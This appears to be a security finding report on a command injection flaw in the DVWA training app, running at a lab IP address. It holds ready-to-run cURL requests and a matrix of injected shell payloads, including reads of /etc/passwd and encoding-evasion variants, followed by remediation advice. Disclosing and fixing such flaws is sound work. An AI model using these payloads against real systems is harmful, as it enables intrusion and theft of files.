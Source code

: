 # Command Injection (RCE) in DVWA /DVWA/vulnerabilities/exec/ via POST parameter "ip"

**ID:** vuln-0001
**Severity:** CRITICAL
**Found:** 2025-10-22 15:59:04 UTC

## Description

Summary
A command injection vulnerability exists in the DVWA Command Injection module at /DVWA/vulnerabilities/exec/. The POST parameter ip is concatenated into a system shell command without proper sanitization or parameterization, enabling arbitrary OS command execution on the server as the web user (www-data). The issue is reproducible at DVWA security level: low.

Affected Component
- URL: http://192.168.13.214/DVWA/vulnerabilities/exec/
- Method: POST
- Parameter: ip (form field), Submit=Submit
- Authentication context: DVWA authenticated session (security=low)
- Session cookies observed: PHPSESSID=turmqf3c4d8394e78clit57i4j; security=low
- Proxy baseline request ID: 34
- Evidence file: /workspace/findings/dvwa_cmdinj_validation.json

Reproducible Steps
1) Login to DVWA (default creds in a freshly initialized instance are commonly admin / password).
2) Navigate to DVWA Security and set Security Level to Low.
3) Open Command Injection module: /DVWA/vulnerabilities/exec/
4) Submit the form with ip containing a shell metacharacter followed by a system command, e.g.:
   127.0.0.1; id
5) Observe the response includes the output of the injected command (e.g., uid=33(www-data) ...), confirming RCE.

HTTP PoC (cURL)
Request 1 – id (proof of code execution and running user)
curl -i 'http://192.168.13.214/DVWA/vulnerabilities/exec/' \
  -H 'Cookie: PHPSESSID=turmqf3c4d8394e78clit57i4j; security=low' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'ip=127.0.0.1; id&Submit=Submit'

Expected evidence in response body includes:
- uid=33(www-data) gid=33(www-data) groups=33(www-data)

Request 2 – uname -a (kernel info)
curl -i 'http://192.168.13.214/DVWA/vulnerabilities/exec/' \
  -H 'Cookie: PHPSESSID=turmqf3c4d8394e78clit57i4j; security=low' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'ip=127.0.0.1; uname -a&Submit=Submit'

Expected evidence: Linux kernel information line.

Request 3 – environment dump
curl -i 'http://192.168.13.214/DVWA/vulnerabilities/exec/' \
  -H 'Cookie: PHPSESSID=turmqf3c4d8394e78clit57i4j; security=low' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'ip=127.0.0.1; env&Submit=Submit'

Expected evidence: Environment variables showing context (e.g., USER/WWW user).

Request 4 – directory listing (/) and webroot
curl -i 'http://192.168.13.214/DVWA/vulnerabilities/exec/' \
  -H 'Cookie: PHPSESSID=turmqf3c4d8394e78clit57i4j; security=low' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'ip=127.0.0.1; ls -la /&Submit=Submit'

curl -i 'http://192.168.13.214/DVWA/vulnerabilities/exec/' \
  -H 'Cookie: PHPSESSID=turmqf3c4d8394e78clit57i4j; security=low' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'ip=127.0.0.1; ls -la /var/www/html&Submit=Submit'

Expected evidence: directory listings (drwx entries), files in webroot.

Request 5 – file read (/etc/passwd)
curl -i 'http://192.168.13.214/DVWA/vulnerabilities/exec/' \
  -H 'Cookie: PHPSESSID=turmqf3c4d8394e78clit57i4j; security=low' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data 'ip=127.0.0.1; cat /etc/passwd&Submit=Submit'

Expected evidence includes lines such as:
- root:x:0:0:root:/root:/bin/bash
- bin:x:1:1:bin:/bin:/usr/sbin/nologin
Demonstrating arbitrary file read on the host.

Validated Payload Matrix (successful)
Separators and constructs confirmed working:
- Semicolon: 127.0.0.1; id
- Logical AND: 127.0.0.1 && uname -a
- Pipe: 127.0.0.1 | id
- Subshell: 127.0.0.1; $(id) and backticks 127.0.0.1; `id`
- Newline injection: 127.0.0.1\nid
- Percent-encoded separators (WAF/encoding evasion):
  - 127.0.0.1%3Bid  (semicolon)
  - 127.0.0.1%26%26id (&&)
  - 127.0.0.1%7Cid  (pipe)

Additional informative payloads confirmed:
- 127.0.0.1; whoami            → www-data
- 127.0.0.1; pwd               → working directory shown
- 127.0.0.1; ls -la /var/www/html and /DVWA
- 127.0.0.1; cat /etc/issue     → distro banner
- 127.0.0.1; cat /proc/version  → kernel build details

Evidence Summary
Automated validation was executed by replaying baseline POST request (proxy ID 34) with a matrix of payloads. Responses were analyzed for markers: uid=, www-data, directory listings (drwx), kernel info, and /etc/passwd entries. Results:
- Successful payloads: at least 17 confirmed with explicit markers
- Proof-of-execution: uid=33(www-data), groups=…, Linux kernel details, environment variables present
- Proof-of-file-read: /etc/passwd contains root:x and system accounts
- Percent-encoded separators bypass also worked, confirming potential WAF/encoding evasion
- Evidence and request/response details stored at: /workspace/findings/dvwa_cmdinj_validation.json

Impact
- Arbitrary code execution on the server under the web server user (www-data)
- Read access to sensitive files (/etc/passwd demonstrated)
- System reconnaissance (kernel, environment, filesystem) enabling further exploitation
- Potential lateral movement, data exfiltration, and full service compromise depending on environment

CVSS v3.1
Base Score: 9.8 Critical
Vector: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

Root Cause
User-controlled input (ip) is passed to an underlying shell command without strict allowlist validation or safe execution, enabling injection of shell metacharacters and arbitrary commands.

Recommendations
- Do not invoke the shell; avoid system()/exec()/passthru()/shell_exec() with user input.
- If an external command is absolutely required, use safe APIs that do not invoke a shell and pass arguments as an array (e.g., proc_open/exec with shell=False equivalents) and validate/escape strictly.
- Implement strict allowlist validation for ip: only digits and dots, optionally CIDR; reject anything else.
- If unavoidable, use escapeshellarg/escapeshellcmd as additional defense-in-depth (not primary).
- Enforce least privilege for the web service account; restrict file permissions and disable dangerous functions.
- Consider a WAF and input normalization to detect/block metacharacters and encoded variants.
- Log and alert on suspicious parameters containing shell metacharacters.
- Review all similar code paths handling user input for OS command execution.

Reproduction Notes
- Requires an authenticated DVWA session with security level set to low.
- Use the provided cURL PoCs with the Cookie header.
- Full replay and results are recorded under proxy baseline request ID 34 and JSON evidence file at /workspace/findings/dvwa_cmdinj_validation.json.

Appendix
Selected working payloads:
- 127.0.0.1; id
- 127.0.0.1 && uname -a
- 127.0.0.1 | id
- 127.0.0.1; env
- 127.0.0.1; ls -la /
- 127.0.0.1; cat /etc/passwd
- 127.0.0.1%3Bid
- 127.0.0.1%26%26id
- 127.0.0.1%7Cid

This vulnerability has been validated with concrete requests and responses demonstrating arbitrary command execution and sensitive file read on the target system.
